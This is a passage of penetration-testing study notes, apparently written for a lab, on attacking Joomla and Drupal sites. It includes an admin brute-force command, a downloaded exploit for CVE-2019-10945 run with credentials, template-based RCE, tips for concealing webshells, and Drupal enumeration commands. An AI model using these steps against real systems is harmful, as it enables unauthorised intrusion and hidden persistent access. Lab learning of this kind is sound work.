     sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
    ```
  
  * if we get admin creds, we can log into the backend at /administrator - we can [customize a template to get RCE](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce).

  * we can consider using non-standard filenames and parameters for webshells, or even password-protect or limit to source IP; once webshell is added, we can use ```curl``` for RCE

  * leverage known vulnerabilities - we can check for any exploits associated with versions of Joomla or plugins; for example, Joomla 3.9.4 is vulnerable to [CVE-2019-10945](https://www.exploit-db.com/exploits/46710):

    ```sh
    # the original exploit from ExploitDB does not work
    wget https://raw.githubusercontent.com/dpgg101/CVE-2019-10945/main/CVE-2019-10945.py

    python3 CVE-2019-10945.py --help

    python3 CVE-2019-10945.py --url "http://app.inlanefreight.local/administrator/" --username admin --password turnkey --dir /
    ```

* Drupal:

  * footprinting:

    ```sh
    curl -s http://drupal.inlanefreight.local | grep Drupal
    # check for mentions of Drupal

    # we can also check for a CHANGELOG.txt or README.txt file

    # we can also check for nodes - content pages
    # URI in form of /node/<nodeid> - /node/1, /node/2, and so on
    ```
  
  * enumeration:

    ```sh
    curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
    # get Drupal version, if we have access to CHANGELOG.txt

    droopescan scan drupal -u http://drupal.inlanefreight.local
    ```
  